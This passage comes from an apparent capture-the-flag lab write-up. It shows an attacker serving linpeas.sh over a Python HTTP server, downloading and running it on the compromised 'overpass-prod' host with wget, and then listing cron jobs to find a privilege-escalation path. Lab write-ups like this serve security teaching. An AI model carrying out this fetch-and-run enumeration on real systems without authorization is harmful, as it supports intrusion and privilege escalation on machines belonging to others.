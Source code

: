 ### Running Linpeas.sh

- Host a python server to get linpeas on target machine:

```bash
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.123.199 - - [20/May/2021 01:14:02] "GET /linpeas.sh HTTP/1.1" 200 -
```

- Download and run **linpeas.sh** in the target vulnerable machine.
- I have included only a small part of linpeas output.
- Cron jobs!! 

```bash
james@overpass-prod:~$ wget http://10.17.7.91:8000/linpeas.sh
--2021-05-19 19:46:17--  http://10.17.7.91:8000/linpeas.sh
Connecting to 10.17.7.91:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325865 (318K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[=============================================================>] 318.23K   285KB/s    in 1.1s    

2021-05-19 19:46:18 (285 KB/s) - ‘linpeas.sh’ saved [325865/325865]

james@overpass-prod:~$ chmod +x linpeas.sh 
james@overpass-prod:~$ ./linpeas.sh | tee linpeas.out

.
.

[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs
/usr/bin/crontab
incrontab Not Found
-rw-r--r-- 1 root root  822 Jun 27  2020 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Feb  3  2020 .
drwxr-xr-x 90 root root 4096 Jun 27  2020 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder
-rw-r--r--  1 root root  589 Jan 14  2020 mdadm
-rw-r--r--  1 root root  191 Feb  3  2020 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 Jun 27  2020 .
drwxr-xr-x 90 root root 4096 Jun 27  2020 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder
-rwxr-xr-x  1 root root  376 Nov 20  2017 apport
-rwxr-xr-x  1 root root 1478 Apr 20  2018 apt-compat
-rwxr-xr-x  1 root root  355 Dec 29  2017 bsdmainutils
-rwxr-xr-x  1 root root 1176 Nov  2  2017 dpkg
-rwxr-xr-x  1 root root  372 Aug 21  2017 logrotate
-rwxr-xr-x  1 root root 1065 Apr  7  2018 man-db
-rwxr-xr-x  1 root root  539 Jan 14  2020 mdadm
-rwxr-xr-x  1 root root  538 Mar  1  2018 mlocate
-rwxr-xr-x  1 root root  249 Jan 25  2018 passwd
-rwxr-xr-x  1 root root 3477 Feb 21  2018 popularity-contest
-rwxr-xr-x  1 root root  246 Mar 21  2018 ubuntu-advantage-tools
-rwxr-xr-x  1 root root  214 Nov 12  2018 update-notifier-common

```
